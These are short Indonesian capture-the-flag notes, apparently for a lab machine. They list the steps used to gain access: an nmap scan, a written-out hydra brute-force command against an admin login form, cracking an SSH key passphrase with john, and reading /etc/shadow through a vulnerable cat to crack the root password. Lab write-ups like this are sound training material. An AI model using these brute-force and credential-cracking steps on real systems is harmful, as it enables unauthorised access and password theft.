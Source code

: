 # boot:
1. scan nmap 22 80 kebuka -> fuzz http 
2. ada login page cek source dapet uname -> brute force
3. hydra -l admin -P /usr/share/wordlists/rockyou.txt -vV 10.10.64.1 http-post-form"/admin/:user=admin&pass=^PASS^:invalid"
4. tunggu -> dapet creds login -> ada rsa priv key -> tapi ada passphrase
5. ssh2john rsa > rsa.hash -> john rsa.hash --wordlist=/rockyou 
6. dapet ssh aja -> ssh gabisa ke admin ternyata -> ssh ke john aja
7. jan lupa chmod 600 rsa nya -> ssh -i rsa john@ip
8. klaim user flag


# PE:
1.  ada vuln di cat -> cat aja /etc/shadow buat crack passwd root
2. sebenernya klaim root bisa cuman enakan jadi root aja
3. ambil passwd dari : ampe : setelahnya -> john passwd.hash --wordlist=/rockyou
4. su root -> klaim flag

